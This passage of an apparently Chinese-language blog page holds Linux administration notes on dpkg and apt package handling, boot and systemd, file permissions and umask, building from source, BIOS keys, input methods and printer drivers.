<span class="keyword">package</span> has already been installed <span class="keyword">and</span> removed (but <span class="keyword">not</span> purged, the configuration files <span class="keyword">having</span> been retained).</span><br><span class="line"><span class="number">3.</span> The <span class="keyword">new</span> <span class="keyword">package</span> files <span class="keyword">are</span> <span class="keyword">then</span> unpacked. <span class="keyword">If</span> a <span class="keyword">file</span> already <span class="keyword">exists</span>, it <span class="keyword">is</span> replaced, but a <span class="keyword">backup</span> copy <span class="keyword">is</span> made <span class="keyword">and</span> temporarily stored.</span><br><span class="line"><span class="number">4.</span> <span class="keyword">For</span> an <span class="keyword">update</span>, dpkg executes <span class="keyword">old</span>-postrm <span class="keyword">upgrade</span> <span class="keyword">new</span>-version.</span><br><span class="line"><span class="number">5.</span> dpkg updates <span class="keyword">all</span> <span class="keyword">of</span> the internal <span class="keyword">data</span> (<span class="keyword">file</span> <span class="keyword">list</span>, configuration scripts, etc.) <span class="keyword">and</span> removes the backups <span class="keyword">of</span> the replaced files. This <span class="keyword">is</span> the point <span class="keyword">of</span> <span class="keyword">no</span> 	<span class="keyword">return</span>: dpkg <span class="keyword">no</span> longer has <span class="keyword">access</span> <span class="keyword">to</span> <span class="keyword">all</span> <span class="keyword">of</span> the elements necessary <span class="keyword">to</span> <span class="keyword">return</span> <span class="keyword">to</span> the previous state.</span><br><span class="line"><span class="number">6.</span> dpkg will <span class="keyword">update</span> the configuration files, prompting you <span class="keyword">to</span> decide <span class="keyword">if</span> it <span class="keyword">is</span> unable <span class="keyword">to</span> automatically manage this task. The details <span class="keyword">of</span> this <span class="keyword">procedure</span> <span class="keyword">are</span>  	discussed <span class="keyword">in</span> <span class="keyword">section</span> <span class="number">8.4</span><span class="number">.3</span>, “Checksums, Conffiles” [page <span class="number">214</span>].</span><br><span class="line"><span class="number">7.</span> Finally, dpkg configures the <span class="keyword">package</span> <span class="keyword">by</span> executing <span class="keyword">new</span>-postinst configure <span class="keyword">last</span> <span class="keyword">version</span>-configured</span><br><span class="line">卸载包：</span><br><span class="line"><span class="number">1.</span> dpkg calls prerm remove.</span><br><span class="line"><span class="number">2.</span> dpkg removes <span class="keyword">all</span> <span class="keyword">of</span> the <span class="keyword">package</span>’s files, <span class="keyword">with</span> the <span class="keyword">exception</span> <span class="keyword">of</span> the configuration files <span class="keyword">and</span> configuration scripts.</span><br><span class="line"><span class="number">3.</span> dpkg executes postrm remove. <span class="keyword">All</span> <span class="keyword">of</span> the configuration scripts, <span class="keyword">except</span> postrm, <span class="keyword">are</span> removed.If you have <span class="keyword">not</span> used the <span class="keyword">purge</span> <span class="keyword">option</span>, the process stops here.</span><br><span class="line"><span class="number">4.</span> <span class="keyword">For</span> a <span class="keyword">complete</span> <span class="keyword">purge</span> <span class="keyword">of</span> the <span class="keyword">package</span> (command issued <span class="keyword">with</span> dpkg <span class="comment">--purge or dpkg -P),the configuration files are also deleted, as well as a certain number of 	copies (*.dpkg-tmp,*.dpkg-old, *.dpkg-new) and temporary files; dpkg then executes postrm purge</span></span><br><span class="line">=========================================================================================</span><br><span class="line">总结：</span><br><span class="line">• dpkg <span class="comment">--listfiles package(or-L) lists the files that were installed by the specified package.</span></span><br><span class="line">• dpkg <span class="comment">--search file (or -S) finds any packages containing the file or path passed in the argument.</span></span><br><span class="line">• dpkg <span class="comment">--list (or -l) displays the list of packages known to the system and their installation status.</span></span><br><span class="line">• dpkg <span class="comment">--contents file.deb (or -c) lists all the files in a particular .deb file.</span></span><br><span class="line">• dpkg <span class="comment">--info file.deb (or -I) displays the headers of the specified .deb file.</span></span><br><span class="line">• The various apt-<span class="keyword">cache</span> subcommands display much <span class="keyword">of</span> the information <span class="keyword">stored</span> <span class="keyword">in</span> APT’s <span class="keyword">in</span>ternal database.</span><br><span class="line">=========================================================================================</span><br><span class="line">定期整理/<span class="keyword">var</span>/<span class="keyword">cache</span>/apt/archives/：</span><br><span class="line">apt clean</span><br><span class="line">apt autoclean</span><br><span class="line">/etc/apt/apt.conf.d/ 来修改APT配置</span><br><span class="line">https://bugs.debian.org/<span class="keyword">package</span> 查看包的bug 同样，bugs.kali.org 查看kali的bug汇报</span><br><span class="line">=========================================================================================</span><br></pre></td></tr></table></figure>
<h3 id="其他相关"><a href="#其他相关" class="headerlink" title="其他相关"></a>其他相关</h3><h4 id="查看软件依赖"><a href="#查看软件依赖" class="headerlink" title="查看软件依赖"></a>查看软件依赖</h4><blockquote>
<p><a href="https://blog.bfw.wiki/user1/16285810560586310044.html" target="_blank" rel="noopener">https://blog.bfw.wiki/user1/16285810560586310044.html</a></p>
</blockquote>
<p>如：<code>ldd /bin/zsh</code></p>
<h4 id="APT-Upgrade-Full-upgrade-Dist-upgrade区别"><a href="#APT-Upgrade-Full-upgrade-Dist-upgrade区别" class="headerlink" title="APT Upgrade Full-upgrade Dist-upgrade区别"></a>APT Upgrade Full-upgrade Dist-upgrade区别</h4><ul>
<li><code>apt upgrade</code>：升级所有软件包，而不安装或删除软件包，即使这意味着某些软件包未升级</li>
<li><code>apt upgrade</code>或<code>aptitude safe-upgrade</code>：升级所有软件包，如果需要，安装新软件包，但不删除软件包，即使这意味着某些软件包未升级</li>
<li><code>apt full-upgrade</code>或<code>aptitude full-upgrade</code>或<code>apt-get dist-upgrade</code>：升级所有软件包并安装新软件包或根据需要删除已安装的软件包</li>
</ul>
<h4 id="APT自定义不升级的软件包"><a href="#APT自定义不升级的软件包" class="headerlink" title="APT自定义不升级的软件包"></a>APT自定义不升级的软件包</h4><p>1.<code>sudo apt-mark hold nginx</code></p>
<p>特点(apt-mark hold)：</p>
<pre><code>简单易用：适合想要简单快速地阻止某个软件包自动升级的情况。
全面控制：防止任何版本更新，直到取消保持标记。
</code></pre><p>2.编辑<code>sudo nano /etc/apt/preferences.d/ignore-version</code></p>
<figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">Package:</span> <span class="string">nginx</span></span><br><span class="line"><span class="attr">Pin:</span> <span class="string">version</span> <span class="number">1.18</span><span class="number">.0</span><span class="string">*</span></span><br><span class="line"><span class="attr">Pin-Priority:</span> <span class="number">-1</span></span><br></pre></td></tr></table></figure>
<figure class="highlight groovy"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">Package:</span> unwanted-<span class="keyword">package</span></span><br><span class="line"><span class="string">Pin:</span> version *</span><br><span class="line">Pin-<span class="string">Priority:</span> <span class="number">-1</span></span><br><span class="line"><span class="string">Explanation:</span> prevent unwanted-<span class="keyword">package</span> from being installed</span><br></pre></td></tr></table></figure>
<p>特点</p>
<pre><code>灵活性高：可以针对特定版本进行精细控制。
多种配置：可以为多个软件包设置不同的优先级。
更复杂：需要手动编辑配置文件，稍微复杂一些。
</code></pre><p>请注意，<code>Package</code>（显然是<code>版本</code>）接受模式。参见<code>apt_preferences（5）</code> 想要查询更多的信息。</p>
<p>（Note that <code>Package</code> (and <code>version</code> obviously) accept patterns. See <code>apt_preferences(5)</code> for more information.）</p>
<h2 id="Linux知识"><a href="#Linux知识" class="headerlink" title="Linux知识"></a>Linux知识</h2><h3 id="忠告"><a href="#忠告" class="headerlink" title="忠告"></a>忠告</h3><figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">做事情前，请思考：</span><br><span class="line">• Confidentiality: can actors who should <span class="keyword">not</span> have access <span class="keyword">to</span> the<span class="built_in"> system </span><span class="keyword">or</span> information access the<span class="built_in"> system </span><span class="keyword">or</span> information?</span><br><span class="line">• Integrity: can the data <span class="keyword">or</span> the<span class="built_in"> system </span>be modified <span class="keyword">in</span> some way that is <span class="keyword">not</span> intended?</span><br><span class="line">• Availability: are the data <span class="keyword">or</span> the<span class="built_in"> system </span>accessible when <span class="keyword">and</span> how it is intended <span class="keyword">to</span> be?</span><br></pre></td></tr></table></figure>
<h3 id="The-Unix-Way——One-thing-at-a-time"><a href="#The-Unix-Way——One-thing-at-a-time" class="headerlink" title="The Unix Way——One thing at a time"></a>The Unix Way——One thing at a time</h3><blockquote>
<p>Unix操作系统家族的基本概念之一是，每个工具只能做一件事情，并且做得很好。然后，应用程序可以重用这些工具，以在顶部构建更高级的逻辑。这种哲学可以在许多化身中看到。外壳脚本可以是最好的例子：它们装配的非常简单的工具复杂的序列（如<code>grep</code>，<code>wc</code>，<code>sort</code>，<code>uniq</code>等等）。可以在代码库中看到这种哲学的另一种实现：<em>libpng</em>库允许使用不同的选项和不同的方式读取和写入PNG图像，但只能这样做。毫无疑问，它包含显示或编辑图像的功能。</p>
</blockquote>
<p>One of the fundamental concepts that underlies the Unix family of  operating systems is that each tool should only do one thing, and do it  well; applications can then reuse these tools to build more advanced  logic on top. This philosophy can be seen in many incarnations. Shell  scripts may be the best example: they assemble complex sequences of very simple tools (such as <code>grep</code>, <code>wc</code>, <code>sort</code>, <code>uniq</code> and so on). Another implementation of this philosophy can be seen in code libraries: the <em>libpng</em> library allows reading and writing PNG images, with different options  and in different ways, but it does only that; no question of including  functions that display or edit images.</p>
<h3 id="Linux开机过程-和-Systemd"><a href="#Linux开机过程-和-Systemd" class="headerlink" title="Linux开机过程 和 Systemd"></a>Linux开机过程 和 Systemd</h3><p>Linux Boot</p>
<figure class="highlight kotlin"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">在我们打开Linux电脑的电源后第一个启动的进程就是<span class="keyword">init</span>。分配给<span class="keyword">init</span>进程的PID是<span class="number">1</span>。它是系统其他所有进程的父进程。当一台Linux电脑启动后，处理器会先在系统存储中查找BIOS，之后BIOS会检测系统资源然后找到第一个引导设备，通常为硬盘，然后会查找硬盘的主引导记录（MBR），然后加载到内存中并把控制权交给它，以后的启动过程就由MBR控制。如果是UEFI启动则是在UEFI分区寻找efi启动文件。</span><br><span class="line">主引导记录会初始化引导程序（Linux上有两个著名的引导程序，GRUB和LILO，<span class="number">80</span>%的Linux系统在用GRUB引导程序），这个时候GRUB或LILO会加载内核模块。内核会马上查找/sbin下的“<span class="keyword">init</span>”程序并执行它。从这里开始<span class="keyword">init</span>成为了Linux系统的父进程。<span class="keyword">init</span>读取的第一个文件是/etc/inittab，通过它<span class="keyword">init</span>会确定我们Linux操作系统的运行级别。它会从文件/etc/fstab里查找分区表信息然后做相应的挂载。然后<span class="keyword">init</span>会启动/etc/<span class="keyword">init</span>.d里指定的默认启动级别的所有服务/脚本。所有服务在这里通过<span class="keyword">init</span>一个一个被初始化。在这个过程里，<span class="keyword">init</span>每次只启动一个服务，所有服务/守护进程都在后台执行并由<span class="keyword">init</span>来管理。</span><br><span class="line">关机过程差不多是相反的过程，首先<span class="keyword">init</span>停止所有服务，最后阶段会卸载文件系统。</span><br><span class="line">以上提到的启动过程有一些不足的地方。而用一种更好的方式来替代传统<span class="keyword">init</span>的需求已经存在很长时间了。也产生了许多替代方案，其中比较著名的有Upstart，Epoch，Muda和Systemd。而Systemd获得最多关注并被认为是目前最佳的方案。</span><br></pre></td></tr></table></figure>
<p>关于Systemd </p>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br></pre></td><td class="code"><pre><span class="line">   开发Systemd的主要目的就是减少系统引导时间和计算开销。Systemd（系统管理守护进程），最开始以GNU GPL协议授权开发，现在已转为使用GNU LGPL协议，它是如今讨论最热烈的引导和服务管理程序。如果你的Linux系统配置为使用Systemd引导程序，它取替传统的SysV init，启动过程将交给systemd处理。Systemd的一个核心功能是它同时支持SysV init的后开机启动脚本。</span><br><span class="line">    Systemd引入了并行启动的概念，它会为每个需要启动的守护进程建立一个套接字，这些套接字对于使用它们的进程来说是抽象的，这样它们可以允许不同守护进程之间进行交互。Systemd会创建新进程并为每个进程分配一个控制组（cgroup）。处于不同控制组的进程之间可以通过内核来互相通信。systemd处理开机启动进程的方式非常漂亮，和传统基于init的系统比起来优化了太多。让我们看下Systemd的一些核心功能。</span><br><span class="line"></span><br><span class="line"><span class="number">1</span>. 和init比起来引导过程简化了很多。</span><br><span class="line"><span class="number">2</span>. Systemd支持并发引导过程从而可以更快启动。</span><br><span class="line"><span class="number">3</span>. 通过控制组来追踪进程，而不是PID。</span><br><span class="line"><span class="number">4</span>. 优化了处理引导过程和服务之间依赖的方式。</span><br><span class="line"><span class="number">5</span>. 支持系统快照和恢复。</span><br><span class="line"><span class="number">6</span>. 监控已启动的服务；也支持重启已崩溃服务。</span><br><span class="line"><span class="number">7</span>. 包含了systemd-login模块用于控制用户登录。</span><br><span class="line"><span class="number">8</span>. 支持加载和卸载组件。</span><br><span class="line"><span class="number">9</span>. 低内存使用痕迹以及任务调度能力</span><br><span class="line"><span class="number">10</span>.记录事件的Journald模块和记录系统日志的syslogd模块</span><br><span class="line"></span><br><span class="line">    Systemd同时也清晰地处理了系统关机过程。在麒麟操作系统中，在/<span class="class"><span class="keyword">lib</span>/<span class="title">systemd</span>/<span class="title">system</span>目录下有三个脚本，分别叫<span class="title">systemd</span>-<span class="title">halt</span>.<span class="title">service</span>，<span class="title">systemd</span>-<span class="title">poweroff</span>.<span class="title">service</span>，<span class="title">systemd</span>-<span class="title">reboot</span>.<span class="title">service</span>。这几个脚本会在用户选择关机，重启或待机时执行。在接收到关机事件时，<span class="title">systemd</span>首先卸载所有文件系统并停止所有内存交换设备，断开存储设备，之后停止所有剩下的进程。</span></span><br></pre></td></tr></table></figure>
<p>其他阅读:</p>
<figure class="highlight aspectj"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br></pre></td><td class="code"><pre><span class="line">Centos8启动流程：</span><br><span class="line"><span class="number">1.</span>在按下电源之后，BIOS会加载硬件信息并对硬件进行自检。</span><br><span class="line">  加载BIOS或UEFI初始化，开机自检</span><br><span class="line">    选择启动设备</span><br><span class="line">    引导装载程序，centos6是grub，centos7和<span class="number">8</span>是grub2</span><br><span class="line">    加载装载程序的配置文件：/etc/grub.d/ /etc/<span class="keyword">default</span>/grub /boot/grub2/grub.cfg</span><br><span class="line"><span class="number">2.</span>在自检完成之后，会读取由BIOS设置的第一个可启动设备，此时可以读入MBR引导记录中的主引导程序（boot loader）。Boot Loader 就是在操作系统内核运行之前运行的一段程序,GRUB是其中一种的引导程序的名称。</span><br><span class="line"><span class="number">3.</span>主引导程序可以指定哪个内核（Kernel）文件来进行启动，并将被指定的内核加载到内存当中运行。</span><br><span class="line"><span class="number">4.</span>在系统启动完成之后Linux才会调用外部程序开始准备软件执行的环境。并加载所有操作系统运行所需要的软件程序。</span><br><span class="line"><span class="number">5.</span>加载内核选项</span><br><span class="line"><span class="number">6.</span>加载initramfs初始化伪文件系统</span><br><span class="line">    内核初始化，centos8使用systemd代替init</span><br><span class="line">    执行initrd.<span class="keyword">target</span> 所有单元，包括挂载/etc/fstab</span><br><span class="line">    从initramfs根文件系统切换到磁盘根目录</span><br><span class="line">    systemd执行默认<span class="keyword">target</span>配置，配置文件/etc/systemd/system/<span class="keyword">default</span>.<span class="keyword">target</span></span><br><span class="line">    systemd执行sysinit.<span class="keyword">target</span>初始化系统及basic.<span class="keyword">target</span>准备操作系统</span><br><span class="line">    systemd启动mulit-user.<span class="keyword">target</span>下的本机与服务器服务</span><br><span class="line">    systemd执行multi-user.<span class="keyword">target</span>下的/etc/rc.d/rc.local</span><br><span class="line">    systemd执行multi-user.<span class="keyword">target</span>下的getty.<span class="keyword">target</span>及登录服务</span><br><span class="line">    systemd执行graphical需要的服务</span><br></pre></td></tr></table></figure>
<h3 id="Linux-文件系统和文件权限"><a href="#Linux-文件系统和文件权限" class="headerlink" title="Linux 文件系统和文件权限"></a>Linux 文件系统和文件权限</h3><h4 id="文件系统结构"><a href="#文件系统结构" class="headerlink" title="文件系统结构"></a>文件系统结构</h4><ul>
<li><code>/bin/</code>：基本程序；                 </li>
<li><code>/boot/</code>：早期启动过程所需的Linux内核和其他文件；                 </li>
<li><code>/dev/</code>：设备文件；                 </li>
<li><code>/etc/</code>：配置文件；                 </li>
<li><code>/home/</code>：用户的个人文件；                 </li>
<li><code>/lib/</code>：基本库；                 </li>
<li><code>/media/*</code>：可移动设备（CD-ROM，USB密钥等）的安装点；                 </li>
<li><code>/mnt/</code>：临时挂载点；                 </li>
<li><code>/opt/</code>：第三方提供的额外应用程序；                 </li>
<li><code>/root/</code>：管理员（根）的个人文件；                 </li>
<li><code>/run/</code>：不稳定的运行时数据，不会在重新启动后持续存在；                 </li>
<li><code>/sbin/</code>：系统程序；                 </li>
<li><code>/srv/</code>：此系统上托管的服务器使用的数据；                 </li>
<li><code>/tmp/</code>：临时文件；该目录通常在启动时清空；                 </li>
<li><code>/usr/</code>：应用；此目录被进一步细分为<code>bin</code>，<code>sbin</code>，<code>lib</code>（按照相同的逻辑，在根目录）。此外，还<code>/usr/share/</code>包含与体系结构无关的数据。<code>/usr/local/</code>是指由管理员用来手动安装应用程序，而不会覆盖打包系统（<code>dpkg</code>）处理的文件。                 </li>
<li><code>/var/</code>：由守护程序处理的变量数据。这包括日志文件，队列，假脱机，高速缓存等。                 </li>
<li><code>/proc/</code>并且<code>/sys/</code>特定于Linux内核（而不是FHS的一部分）。内核使用它们将数据导出到用户空间（有关此概念的说明，请参见<a href="https://www.debian.org/doc/manuals/debian-handbook/sect.computer-layers.zh-cn.html#sect.userspace-presentation" target="_blank" rel="noopener">第B.3.4节“用户空间”</a>和<a href="https://www.debian.org/doc/manuals/debian-handbook/sect.user-space.zh-cn.html" target="_blank" rel="noopener">第B.5节“用户空间”</a>）。 </li>
</ul>
<blockquote>
<p>请注意，许多现代发行版（包括Debian）都在<code>/bin</code>，<code>/sbin</code>并<code>/lib</code>中存放指向<code>/usr</code>目录的符号链接，因此所有程序和库都可以在同一棵树中使用。它使保护系统文件的完整性以及在多个容器之间共享这些系统文件等变得更加容易。</p>
</blockquote>
<h4 id="文件权限"><a href="#文件权限" class="headerlink" title="文件权限"></a>文件权限</h4><figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">位：<span class="number">9876543210</span></span><br><span class="line">示：drwxr-xr-x</span><br></pre></td></tr></table></figure>
<ul>
<li>第九位——文件类型（p管道文件、d目录文件、l Link文件、s socket文件、c字符设备文件、b设备文件、-普通文件）</li>
<li>第8、7、6；5、4、3；2、1、0位——表示+u（所有者）+g（所在群组）+o（其他群组）</li>
<li>特殊权限：suid&gt;guid<ul>
<li>find / -perm -04000 -type f -ls:查找设置了suid的文件</li>
</ul>
</li>
</ul>
<hr>
<p>八进制设置权限：r=4；w=2；x=1</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">rwx</span>=<span class="number">7</span></span><br><span class="line"><span class="attr">rx</span>=<span class="number">5</span></span><br><span class="line"><span class="attr">rw</span>=<span class="number">6</span></span><br><span class="line"><span class="attr">wx</span>=<span class="number">3</span></span><br><span class="line"><span class="attr">null</span>=<span class="number">0</span></span><br><span class="line"><span class="attr">suid</span>=<span class="number">4</span></span><br><span class="line"><span class="attr">guid</span>=<span class="number">2</span></span><br><span class="line"><span class="attr">sticky</span>=<span class="number">1</span></span><br></pre></td></tr></table></figure>
<p>可执行文件一般是：775 rwxrwx-r-x</p>
<p>特殊权限文件(将以文件所有者权限运行，设置了uid)：4754 srwxr-xr—</p>
<p>数据文件：644 rw-r—r—</p>
<hr>
<p>关于umask：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">终端输入umask得到四个数字：<span class="number">0022</span></span><br><span class="line">初始权限 ：<span class="number">0666</span></span><br><span class="line">umask   ：<span class="number">0022</span></span><br><span class="line">最终权限 ：<span class="number">0644</span></span><br></pre></td></tr></table></figure>
<h3 id="关于Linux源码编译安装软件"><a href="#关于Linux源码编译安装软件" class="headerlink" title="关于Linux源码编译安装软件"></a>关于Linux源码编译安装软件</h3><blockquote>
<p>在Linux下从源代码编译安装软件通常会比在Windows下方便的多。</p>
</blockquote>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># 源码编译三部曲</span></span><br><span class="line">源码编译经典的三部曲 configure, make, make install。如果不出问题,一步步执行下来就安装好了,也不一定要</span><br><span class="line">知其所以然。但出了问题,就不是比较容易解决的。</span><br><span class="line"></span><br><span class="line">configure 是检查系统的库文件、类文件、依赖软件是否存在以及它们的版本是否满足需求,并根据实际检测结果生</span><br><span class="line">成 Makefile 的工具。一般是一堆 bash 命令的组合。通常也需要在这一步配置一些参数。最常用的就是指定软件的</span><br><span class="line">安装目录<span class="attribute">--prefix</span>=/home/ct/soft/specific_name。</span><br><span class="line"></span><br><span class="line">make 则是具体的编译过程。编译的语句都写在了 Makefile 中。make 默认编译 Makefile 中出现的第一个 target,</span><br><span class="line">也可以指定 target 编译,并根据 Makefile 的设置方式依次编译所有依赖的东西。</span><br><span class="line"></span><br><span class="line">有些软件的安装,在执行完 make 后就获得了可执行程序,可以跳过 make install 的过程,只需要把可执行程序放</span><br><span class="line">入环境变量就可以运行了。但部分软件还需要一些依赖关系,所以需要执行 make install 才算完成了完整的安装。</span><br><span class="line"></span><br><span class="line">make install 通常是拷贝 make 编译出来的可执行文件或者依赖的库文件 (如果有的话) 到 configure 时的--</span><br><span class="line">prefix 指定的目录下</span><br><span class="line"></span><br><span class="line"><span class="comment"># 可能需要的组件：</span></span><br><span class="line">aclocal</span><br><span class="line">autoconf</span><br><span class="line">libtoolize</span><br><span class="line">autoheader</span><br><span class="line">automake --add-missing</span><br><span class="line">./configure</span><br><span class="line">make</span><br><span class="line">make install</span><br></pre></td></tr></table></figure>
<h3 id="常见进入BIOS的按键"><a href="#常见进入BIOS的按键" class="headerlink" title="常见进入BIOS的按键"></a>常见进入BIOS的按键</h3><div class="table-container">
<table>
<thead>
<tr>
<th>Manufacturer</th>
<th>Key</th>
</tr>
</thead>
<tbody>
<tr>
<td>Acer - 宏碁</td>
<td>Esc,F12,F9</td>
</tr>
<tr>
<td>Asus - 华硕</td>
<td>Esc,F8</td>
</tr>
<tr>
<td>Clevo - 蓝天</td>
<td>F7</td>
</tr>
<tr>
<td>Dell - 戴尔</td>
<td>F12</td>
</tr>
<tr>
<td>Fujitsu - 富士通</td>
<td>F12,Esc</td>
</tr>
<tr>
<td>HP - 惠普</td>
<td>F9,Esc</td>
</tr>
<tr>
<td>Lenovo - 联想</td>
<td>F12,Novo,F8,F10</td>
</tr>
<tr>
<td>MSI - 微星</td>
<td>F11</td>
</tr>
<tr>
<td>Samsung - 三星</td>
<td>Esc,F12,F2</td>
</tr>
<tr>
<td>Sony - 索尼</td>
<td>F11,Esc,F10</td>
</tr>
<tr>
<td>Toshiba - 东芝</td>
<td>F12</td>
</tr>
<tr>
<td>Others - 其他</td>
<td>F12,Esc</td>
</tr>
</tbody>
</table>
</div>
<h2 id="Linux办公相关"><a href="#Linux办公相关" class="headerlink" title="Linux办公相关"></a>Linux办公相关</h2><h3 id="中文输入法"><a href="#中文输入法" class="headerlink" title="中文输入法"></a>中文输入法</h3><p>以GNOME的中州韵输入法为例：</p>
<p>ibus：GNOME默认ibus，可以安装ibus-rime。安装完后在设置中启用即可(开始键+空格)。X11、Wayland都可以。</p>
<p>fcitx：安装fcitx-rime后，在im-config设置默认fcitx（<code>im-config -n fcitx</code>），最后fcitx配置添加中州韵即可(Ctrl+空格)，建议在x11使用（注销后在用户登录界面的小齿轮选择<code>运行于xorg的GNOME</code>，GNOME默认wayland）。</p>
<p>fcitx5：安装fcitx5-rime后，在im-config设置默认fcitx5，最后fcitx5配置添加中州韵即可(Ctrl+空格)，建议在X11使用。</p>
<h3 id="打印机系统"><a href="#打印机系统" class="headerlink" title="打印机系统"></a>打印机系统</h3><blockquote>
<p><code>gnome-cups-manager</code>是GNOME桌面中的打印机属性管理工具。但是它的自述文件（<code>README File</code>）可能比程序本身更令人感兴趣：</p>
<p>很久很久以前，有一个打印机居住森林里。它很孤独，因为没人知道如何配置它。它希望有人能和它一起玩。<br>一天，风吹过打印机的小屋，“呼，呼”。打印机开始兴奋起来，也许风可成为它的朋友。<br>“你愿意做我的朋友吗？”打印机问。<br>“呼，呼”，风回答。<br>“什么意思”，打印机问。<br>“呼，呼”，风回答，它消失了。<br>打印机搞糊涂了，它把这天剩余的时间都花在思考上，打印纸被卡住了(小小打印机迷糊时就会这么做)。</p>
<p>第二天，一场暴风雨来临。大雨倾盆而下，使早晨的天空变暗，还破坏了打印机的花园。小小打印机很苦恼。“为什么这样对我？”它问。<br>“噼里啪啦，噼里啪啦，”雨回答。<br>“你将做我的朋友？”打印机害羞的问道。<br>“噼里啪啦，噼里啪啦，”雨回答。然后它离开了，太阳露出了脸。<br>打印机很悲伤，这天剩余的时间它都呆在里面，哭泣，悄悄的打着光信号（小小打印机悲伤时就会这么做）。</p>
<p>又有一天，一个小女孩无意闯入了打印机的领地。打印机看着这种奇特的情景，不知道怎么办。<br>“你愿意做我的朋友吗？”小女孩问。<br>“愿意，”打印机回答。<br>“你叫什么名字？”小女孩问。<br>“HP 4100TN”，打印机回答。<br>“我的名字叫gnome-cups-manager”，小女孩说。<br>打印机很快乐，剩下的时间它在玩和打印文档。小小打印机开心时就会如此。            </p>
</blockquote>
<p>打印机生产商一般都会提供Linux驱动，没有的话就去OpenPrinter找一下通用驱动。CUPS是苹果公司写给Unix用的。</p>
<h4 id="通用驱动、通用打印系统"><a href="#通用驱动、通用打印系统" class="headerlink" title="通用驱动、通用打印系统"></a><strong>通用驱动、通用打印系统</strong></h4><blockquote>
<p><a href="https://wiki.debian.org/PrintingGlossaryandIndex#ipp" target="_blank" rel="noopener">https://wiki.debian.org/PrintingGlossaryandIndex#ipp</a></p>
</blockquote>
<p><a href="https://www.cups.org/" target="_blank" rel="noopener">CUPS</a></p>
<p><a href="https://www.openprinting.org/printers" target="_blank" rel="noopener">OPEN PRINTER</a></p>
<p><a href="https://www.pwg.org/ipp/everywhere.html" target="_blank" rel="noopener">IPP Everywhere™</a></p>
<figure class="highlight stata"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br></pre></td><td class="code"><pre><span class="line">打印机的驱动程序可能来自以下任何来源。 请参阅 CUPS/Printer-specific problems 获取其他人设法使用的驱动程序的不完整列表。</span><br><span class="line"></span><br><span class="line">要驱动一台打印机，CUPS 需要一个 PPD 文件，对于大多数打印机来说，还需要一些 过滤器。 有关 CUPS 如何使用 PPD 和过滤器的详细信息。</span><br><span class="line"></span><br><span class="line">OpenPrinting 打印机列表 (英语) 提供了许多打印机的推荐驱动程序。它还为每台打印机提供了相应的 PPD 文件，但是大多数文件都可以通过 foomatic 或其它推荐的驱动程序包获得。 </span><br><span class="line"></span><br><span class="line">Linux 基金会旗下 OpenPrinting 工作组维护的 foomatic 为许多打印机提供了 PPD 文件，既有自由的也有非自由的。 有关 foomatic 功能的更多信息，请参阅 开发者眼中的 Foomatic (英语)。</span><br><span class="line">要使用 foomatic，请安装 foomatic-<span class="keyword">db</span>-engine包 和下列的至少一个软件包：</span><br><span class="line">    foomatic-<span class="keyword">db</span>包 - foomatic-<span class="keyword">db</span>-engine 用来生成 PPD 文件的 XML 文件集合。</span><br><span class="line">    foomatic-<span class="keyword">db</span>-ppds包 - 预构建好的 PPD 文件。</span><br><span class="line">    foomatic-<span class="keyword">db</span>-nonfree包 - 打印机制造商提供的、非自由许可协议下的、foomatic-<span class="keyword">db</span>-engine 用于生成 PPD 文件的 XML 文件集合。</span><br><span class="line">    foomatic-<span class="keyword">db</span>-nonfree-ppds包 - 